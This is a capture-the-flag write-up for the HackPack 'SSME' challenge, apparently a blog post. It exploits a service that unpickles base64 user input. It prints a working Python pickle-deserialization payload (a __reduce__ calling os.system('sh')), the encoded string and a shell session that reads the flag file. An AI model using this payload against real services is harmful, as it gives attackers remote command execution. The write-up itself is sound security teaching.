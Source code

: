 ```yaml
---
title: "HackPack: SSME"
categories:
  - HackPackCTF
tags:
  - HackPackCTF
---
```



Connecting to the vulnerable message encryption service returns a small User Interface:

```
nc cha.hackpack.club 41704

[*] Welcome to our Super Secure Message Encrypter (SSME - copyright pending)
[*] We use patented technology that only we have access to in order to safely encrypt your data
[*] Please use this tool to encrypt/decrypt messages

[*] Please select from the following options
1.) Encrypt a message
2.) Read a message
3.) Quit
```

We can try to read a message, and input a weird character ('):

```
Traceback (most recent call last):
  File "/home/challenger/app.py", line 46, in <module>
    main()                                                                                                           
  File "/home/challenger/app.py", line 37, in main                                                                   
    dec = decrypt(to_dec)                                                                                            
  File "/home/challenger/app.py", line 24, in decrypt                                                                                                                                                                                      
    return pickle.loads(codecs.decode(to_dec.encode(), "base64"))           
_pickle.UnpicklingError: invalid load key, '\xa2'.  
```

That pickle.loads error is interesting. We'll find a PoC for this:

```
import pickle
import os
class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('sh', ))
pickle_data = pickle.dumps(EvilPickle())
with open("backup.data", "wb") as file:
    file.write(pickle_data)
```

Running this with python, we can see that backup.data file created:

```
python test.py
cat backup.data

cposix
system
p0
(S'sh'
p1
tp2
Rp3
```

We can see that it's being base64 decoded on the server side, so we can run the following:

```
cat backup.data | base64 | pbcopy
```

Now, we'll try to read a file again:

```
Please enter the encrypted string here: Y3Bvc2l4CnN5c3RlbQpwMAooUydzaCcKcDEKdHAyClJwMwou

whoami
challenger

ls
app.py
flag.txt
cat flag.txt
flag{n3v3R_u$e_p!ckLe_w_uNtru$t3d_d4t4}
```
